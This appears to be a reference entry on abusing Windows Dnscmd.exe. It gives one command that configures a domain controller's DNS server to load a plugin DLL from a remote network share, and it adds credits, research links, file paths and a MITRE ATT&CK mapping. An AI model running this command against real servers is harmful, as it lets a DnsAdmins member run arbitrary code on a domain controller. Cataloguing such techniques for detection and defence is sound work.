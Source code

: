 ## Dnscmd.exe

* Functions: Execute

```
dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
```

Acknowledgements:
* Shay Ber - ?   
* Dimitrios Slamaris - @dim0x69    
* Nikhil SamratAshok Mittal - @nikhil_mitt   

Code sample:
* 

Resources:
* https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83
* https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html
* https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp
* https://twitter.com/Hexacorn/status/994000792628719618
* http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html

Full path:
```
c:\windows\system32\Dnscmd.exe
c:\windows\sysWOW64\Dnscmd.exe
```

Notes:
Used on Windows servers for DNS management


Detection:


 
MITRE ATT&CK:
* [Indirect Command Execution](https://attack.mitre.org/wiki/Technique/T1202)
